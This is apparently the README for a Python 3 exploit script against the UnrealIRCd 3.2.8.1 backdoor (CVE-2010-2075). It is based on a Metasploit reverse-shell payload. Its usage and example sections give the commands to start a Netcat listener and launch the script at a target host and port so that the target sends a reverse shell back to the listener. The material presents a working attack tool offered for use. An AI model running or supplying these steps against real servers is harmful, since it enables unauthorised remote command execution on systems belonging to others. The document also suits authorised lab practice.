 # UnrealIRCd 3.2.8.1 Backdoor Command Execution
UnrealIRCd 3.2.8.1 backdoor command execution exploit in Python 3 (CVE-2010-2075).

# Description
[UnrealIRCd](https://www.unrealircd.org/) version 3.2.8.1 contains a trojan horse which allows remote attackers to execute arbitrary commands ([CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)).

I referenced the Metasploit payload `payload/cmd/unix/reverse_perl` to make this script. 

# Usage
Start a Netcat listener on the listening host:
```
nc -lp 4444
```

Execute the script, providing the following positional arguments:
```
python3 script.py <target> <tport> <listener> <lport>
```
- `<target>` Target host IP address.
- `<tport>` Target host port number.
- `<listener>` Listening host IP address.
- `<lport>` Listening host port number.

# Example
Setup a Netcat listener on your local machine:
```
nc -lp 4444
```

Run the script against a target machine at `192.168.1.3` TCP port `6697`:
```
python3 script.py 192.168.1.3 6697 192.168.1.2 4444
```
Wait a minute and the Netcat listener should receive a reverse shell.
